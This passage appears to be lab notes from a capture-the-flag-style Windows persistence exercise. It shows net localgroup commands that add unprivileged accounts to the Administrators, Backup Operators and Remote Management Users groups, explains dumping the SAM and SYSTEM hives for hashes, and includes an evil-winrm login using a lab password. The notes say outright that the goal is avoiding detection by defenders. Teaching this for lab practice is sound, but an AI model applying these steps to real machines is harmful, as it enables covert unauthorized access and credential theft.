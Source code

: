 Having an administrator's credential would be the easiest way to achieve persistence in a machine. However, to make it harder for the blue team to detect us, we can manipulate unprivileged users, which usually won't be monitored as much as administrators, and grant them administrative privileges somehow.

## ==**Tampering With Unprivileged Accounts**==
### Assign Group Memberships
For this part of the task, we will assume you have dumped the password hashes of the victim machine and successfully cracked the passwords for the unprivileged accounts in use.

The direct way to make an unprivileged user gain administrative privileges is to make it part of the **Administrators** group. We can easily achieve this with the following command:
```shell-session
C:\> net localgroup administrators thmuser0 /add
```

This will allow you to access the server by using RDP, WinRM or any other remote administration service available. If this looks too suspicious, you can use the **Backup Operators** group. Users in this group won't have administrative privileges but will be allowed to read/write any file or registry key on the system, ignoring any configured DACL. This would allow us to copy the content of the SAM and SYSTEM registry hives, which we can then use to recover the password hashes for all the users, enabling us to escalate to any administrative account trivially.

To do so, we begin by adding the account to the Backup Operators group:
```shell-session
C:\> net localgroup "Backup Operators" thmuser1 /add
```

Since this is an unprivileged account, it cannot RDP or WinRM back to the machine unless we add it to the **Remote Desktop Users** (RDP) or **Remote Management Users** (WinRM) groups. We'll use WinRM for this task:
```shell-session
C:\> net localgroup "Remote Management Users" thmuser1 /add
```

We'll assume we have already dumped the credentials on the server and have thmuser1's password. Let's connect via WinRM using its credentials:
		![[Pasted image 20240909183441.png]]

```shell-session
user@AttackBox$ evil-winrm -i 10.10.6.17 -u thmuser1 -p Password321

*Evil-WinRM* PS C:\> whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators               Alias            S-1-5-32-551 Group used for deny only
BUILTIN\Remote Management Users        Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                   Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
```